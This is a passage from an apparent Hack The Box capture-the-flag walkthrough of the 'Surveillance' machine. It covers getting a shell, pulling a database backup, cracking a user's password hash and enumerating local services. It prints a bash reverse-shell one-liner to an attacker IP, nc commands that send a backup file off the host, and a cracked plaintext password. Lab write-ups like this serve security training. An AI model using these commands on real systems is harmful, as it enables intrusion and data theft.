 ```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'
```

## Privilege Escalation to Matthew 

While enumerating the system we can see two users (other than root) Matthew & ZoneMinder. After looking around I found a backup directory containing a zip file which is contains SQL backup file:

* **Path:**  /var/www/html/craft/storage/backups
We transfer the file to our machine for inspection:

while enumerating the system  With our current user (www-data) I found a backup directory that contains a zip file which was interesting.

I send the file to my machine to inspect it.

* On receiving machine:


```bash
nc -nlvp 443  > surv.zip 
```

* On Sender Machine:

```bash
nc 10.10.14.13 443 < surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

After reading the file you can see that it is creating some DB (creating tables and inserting data) and almost at the end you can find the data being inserted to user table

![Alt text](/assets/images/HTB/survellance/surv4.png)

From the picture above I am able to see that matthew is admin (somewhere) and I can see a long string that could be an encrypted password. To crack the hash I did it with crackstation:
* 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

![Alt text](/assets/images/HTB/survellance/surv5.png)

I am able to get a password match! --> **starcraft122490**

![Alt text](/assets/images/HTB/survellance/surv6.png)

## Escalating to ZoneMinder


With access to Matthew's account, I decided to do some more enumeration check for locally running services that might be exploitable:

```bash
netstat -tunlp
```

![Alt text](/assets/images/HTB/survellance/surv7.png)

I checked the page with curl but it turned out to be a lot of HTML code so i decided to make a port forwarding with *chisel*.
